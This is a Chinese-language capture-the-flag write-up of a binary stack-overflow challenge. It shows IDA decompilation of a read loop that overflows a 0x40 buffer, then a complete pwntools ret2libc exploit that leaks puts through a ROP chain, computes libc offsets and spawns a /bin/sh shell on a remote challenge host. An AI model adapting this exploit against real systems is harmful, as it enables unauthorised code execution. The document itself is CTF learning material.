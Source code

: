 partial relro+NX
进入ida&f5，经过两次调用后看到主要的函数为：

```c
__int64 __fastcall sub_40063D(__int64 a1, signed int a2)
{
  __int64 result; // rax
  signed int i; // [rsp+1Ch] [rbp-4h] a2==200

  for ( i = 0; ; ++i )
  {
    result = (unsigned int)i;
    if ( i >= a2 )
      break;
    read(0, (void *)(i + a1), 1uLL);
  }
  return result;
}

//a1栈空间大小为0x40，然后就是rbp、rsp
```

![20201208055615](https://raw.githubusercontent.com/Brubbish/pic_bed/master/blog/20201208055615.png)
可以看出存在明显的栈溢出，程序内也没有其他特别的sys函数和/bin/sh字符串，所以大概的思路是先查到libc版本，然后构造出system(/bin/sh)

得到exp：

```py
from pwn import *
#context.log_level = "debug"
p = remote("220.249.52.133", 36759)
#p = process("./b2")
elf = ELF("./b2")
#gdb.attach(p)

puts_plt = elf.plt["puts"]
pop_rdi = 0x0400763
main = 0x40068E
puts_got = elf.got["puts"]

leak = "a"*0x40 + "a"*8 + p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(main) 
leak = leak.ljust(200,"a")
p.send(leak)
p.recvuntil("bye~\n")

puts_addr = u64(p.recv(6).ljust(8,"\x00"))	#!!!p.recv() will contain a "0a"(\n)

base = puts_addr - 0x06f690
sys = base + 0x045390
binsh = base + 	0x18cd57
payload = "1"*0x40 + "1"*8 + p64(pop_rdi) + p64(binsh) + p64(sys) 

payload = payload.ljust(200,"a")
p.sendline(payload)

p.interactive() 
```
